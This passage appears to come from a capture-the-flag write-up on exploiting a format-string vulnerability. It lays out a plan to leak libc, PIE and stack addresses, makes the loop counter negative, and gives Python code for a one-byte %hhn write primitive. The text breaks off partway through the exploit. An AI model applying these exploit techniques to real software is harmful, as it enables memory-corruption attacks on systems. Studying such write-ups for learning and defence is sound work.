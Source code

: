 Okay, the `filter` function checks for `$`, couldn't think of a way to bypass so, we can't use it. This won't be much of a problem since we can write a pretty much long payload (0x500). We also have a "maximum of 2 loops", in which our payload will be passed to `printf` as a format.

Plan:
- We leak everything we can (Libc, pie, stack) using the first iteration.
- We'll target the counter variable located in stack. The counter is of type `int` therefore, if we write 1 to the MSB, it'll become negative. We get an infinite format strings. We send many `%p` with our target write address at the end of the payload & we find out which of them gets the address value, replace it with `%n`. We have a write primitive. However! the number of bytes printed is going to be a mess therefore, the value written is a mess too.

#### Crafting a write primitive

Now, we can write but controlling what we'll write is a mess. It's possible to make a write primitive but it'll require lot of alignments & paddings (AND DEBUGGING) therefore, I went for a simple one byte write primitive.

Plan is simple, in order to fix our padding, we'll guarantee a 256 bytes in the payload in which we are free to control, doesn't have to be consecutive. We start by keeping them after our `%hhn` (hhn in order to write 1 byte). Then we check how much we are writing as a default value & write a function to calculate how many bytes are needed to reach our target value. Which is the following line:

```python
b = (112-7 + data)%256
```

Then we can use the new value to correctly pad our payload. The write primitive is the following:

```python
def writeByteInAdr(adr, data):
    b = (112-7 + data)%256
    
    ps = [b"%p"]*55
    ps[54] = b"%hhn"
    payload = b"." * b
    payload += b"".join(ps)
    payload += b"."*(256 - b)
    payload += b"."*8 # Padding
    payload += p64(adr)
    payload += p64(0xcafebabe)
    
    sendl(payload)
```

Great, now we can write. The first thing to do is to write the MSB of our counter in order to turn it into a negative value.

```python
    r = conn()
    
    payload = b"%p."*178
    
    sendl(payload)
    
    r.readline()
    leak = r.readline().decode().split(".")
    
    stack_leak, libc_leak, pie_leak, ld_base = int(leak[0], 16), int(leak[5], 16), int(leak[-2], 16), int(leak[4], 16)-0x11d60
    logh("stack_leak", stack_leak)
    logh("libc_leak", libc_leak)
    logh("pie_leak", pie_leak)
    logh("ld_base", ld_base)
    
    libc_base = libc_leak - 0x11ea0 # 0x205d60
    pie_base = pie_leak - 0x1120
    counter = stack_leak + 0xc - 0x10
```